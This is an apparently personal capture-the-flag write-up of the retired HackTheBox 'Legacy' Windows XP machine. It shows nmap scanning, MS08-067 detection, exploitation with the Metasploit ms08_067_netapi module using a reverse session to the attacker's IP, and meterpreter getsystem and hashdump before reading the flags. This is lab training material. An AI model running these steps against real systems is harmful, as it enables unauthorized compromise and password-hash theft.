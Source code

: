 ```yaml
---
title: "Legacy HTB Writeup"
date: 2021-04-04T23:15:54+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "easy",
    "windows",
]
---
```

![Machine info](/images/legacy/1.png)

This machine mimics a windows legacy (windows xp). it's a straight forward one depends on a public exploit for the (MS08-067) patch leads to RCE and gets us root access directly.

enjoy..

### 1. Enumeration:
* Nmap:
  * ``$ nmap -sC -sV 10.10.10.4 -Pn``
![](/images/legacy/2.png)

The ports of interest (139, 445).
### 2. let's do a vulnerability scan on them:
  * ``$ sudo nmap -p139,445 --script vuln 10.10.10.4`` 
![](/images/legacy/3.png)

It revealed an RCE in the samba version with cve number (2008-4250) or (MS08-067) patch.

let's searchsploit it:
![](/images/legacy/4.png)

And it also has lots of exploits on [exploitdb](https://www.exploit-db.com/exploits/40279) and [rapid7](https://blog.rapid7.com/2014/02/03/new-ms08-067/).
### 3. Exploitation:
let's search for exploits on metasploit:
```yml
$ msfconsole -q  >> for quite mode openning without banner
$ search ms08-067  >> searching with the patch name
$ use exploit/windows/smb/ms08_067_netapi  >> to use the found exploit
then:
$ show options >> to see what options to customize
$ set rhosts 10.10.10.4 >> machine ip
$ set lhost 10.10.x.x >> your tunnel ip
finally:
$ run or exploit  
```
![](/images/legacy/5.png)
![](/images/legacy/6.png)

* Once we have the meterpreter session, it is slightly more difficult to use commands or enumerate which user we are as it is pre Windows XP SP2 and thus the “whoami” command does not exist yet.
* But we can either use "PsExec" to get a system shell or simply use the “getsystem” meterpreter command. also using "shell" command works fine but didn't like it.
```yml
> getsystem
> hashdump
> search -f user.txt
> sysinfo
pwd
cd ../../
cd Documents\ and\ Settings
cd john then cd Desktop
cat user.txt
```
![](/images/legacy/7.png)
![](/images/legacy/8.png)
![And here we got user.txt flag](/images/legacy/9.png)

### getting root.txt:
```yml
search -f root.txt

cd ../..
pwd > Documents\ and\ Settings again
then 
cd Administrator
cd Desktop
cat root.txt
```
![](/images/legacy/10.png)
![](/images/legacy/11.png)
![](/images/legacy/12.png)

And that's it.. hope you enjoyed..

If so Kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588).